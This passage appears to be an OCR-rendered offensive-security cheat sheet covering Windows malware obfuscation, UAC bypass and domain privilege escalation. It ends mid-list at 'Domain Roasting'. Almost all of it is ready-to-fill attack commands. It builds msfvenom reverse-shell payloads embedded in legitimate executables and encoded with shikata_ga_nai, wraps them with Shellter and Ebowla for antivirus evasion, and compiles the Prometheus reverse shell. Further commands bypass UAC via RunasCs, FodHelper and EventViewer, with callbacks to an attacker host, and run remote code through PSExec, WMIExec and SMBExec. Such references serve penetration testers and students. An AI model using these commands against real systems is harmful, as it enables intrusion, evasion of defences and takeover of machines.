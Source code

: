         *   Malware Obfuscation
            *   MalvDev / [Killer](https://github.com/0xHossam/Killer) → Manual Bypass 
            *   Embedding
                *   Binaries → `/usr/share/windows-binaries` → `whoami.exe` / `plink.exe` /`putty.exe`
                *   `msfvenom -x [WIN_BINARY] -p [PAYLOAD] LHOST=[NIC] LPORT=[PORT] -f exe > out.exe`
            *   Shellter (32-Bit)
                *   `msfvenom -p [PAYLOAD] LHOST=[NIC] LPORT=[PORT] -e x86/shikata_ga_nai -b '\x00\x0a\x0d' -i 5 -f raw > shell.bin`
                *   `sudo shellter` → `A` Mode → `Y` Stealth Mode → `shell.bin` Custom Payload → `N` Reflective DLL
            *   Prometheus
                *   [Download](https://github.com/paranoidninja/0xdarkvortex-MalwareDevelopment/blob/master/prometheus.cpp) + Change IP & Port
                *   32/64-Bit Cross-Compile → `[i686-w64-mingw32-g++ / g++] prometheus.cpp -o prometheus.exe -lws2_32 -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc`
            *   [Ebowla](https://0xdf.gitlab.io/2019/02/16/htb-giddy.html)
                *   Clone Repository → Edit `genetic.config` → `output_type = GO` / `payload_type = EXE`
                *   `python ebowla.py [MALWARE.exe] genetic.config`
                *   Build → `./build_x[86/64]_go.sh output/[EBOWLA_OUTPUT].go [OUT_OBFUSCATED_MALWARE].exe`
    *   UAC
        *   Member of "Administrators" → Restricted Privileges / File Access
        *   “Administrator” User               → To SYSTEM Shell
        *   Enumeration
            *   `reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA`
            *   `reg query HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v ConsentPromptBehaviorAdmin`
        *   Bypasess
            *   `[environment]::OSVersion.Version` → [UACME](https://github.com/hfiref0x/UACME)
            *   RunAs
                *   [PS Module](https://github.com/BC-SECURITY/Empire/blob/main/empire/server/data/module_source/management/Invoke-RunAs.ps1) / [Executable](https://github.com/antonioCoco/RunasCs/releases)
                *   `.\RunasCs.exe [USER] [PASSWORD] cmd -r [KALI_IP]:[PORT]`
                *   `Invoke-RunAs -username [USER] -password "[PASSWORD]" -Cmd cmd -Remote [KALI_IP]:[PORT] -BypassUac`
            *   FodHelper
                *   [Download File](https://FodhelperUACBypass.ps1 ) → Windows 10 OS
                *   PS Session          → `FodhelperUACBypass -program "cmd.exe /c [CMD_COMMAND]"`
            *   EventViewer
                *   [Download File](https://github.com/CsEnox/EventViewer-UACBypass) → `Import-Module Invoke-EventViewer`
                *   PS Session          → `Invoke-EventViewer [PATH\TO\MALWARE.exe]`
            *   PSExec
                *   Local       → `PsExec.exe -h -s -i cmd`
                *   Remote  → `psexec.py [AUTH_STRING]`
            *   RDP Access 
                *   CMD/PS → Right-Click → “Run as Administrator”
                *   Input User Credentials
*   Domain Escalation
    *   Admin Hunting
        *   `Find-LocalAdminAccess`
        *   Credential Objects
            *   Check if member of `"Remote Management Users"`
            *   `$pass = ConvertTo-SecureString "[PASS]" -AsPlainText -Force`
            *   `$cred = New-Object -TypeName System.Management.Automation.PSCredential("[USER]", $pass)`
            *   `Invoke-Command -Cred $cred -ScriptBlock{[COMMAND]} -ComputerName [REMOTE_HOSTNAME]`
        *   PS Remoting
            *   `Enable-PSRemoting`
            *   `$sess = New-PSSession -ComputerName [REMOTE_HOSTNAME]`
            *   `Enter-PSSession -Session $sess [-Cred $cred]`
            *   File Transfers → `Copy-Item` + From/To Session Variable
        *   SMB RCE
            *   `Invoke-WMIExec`
            *   `Invoke-SMBExec`
    *   Domain Roasting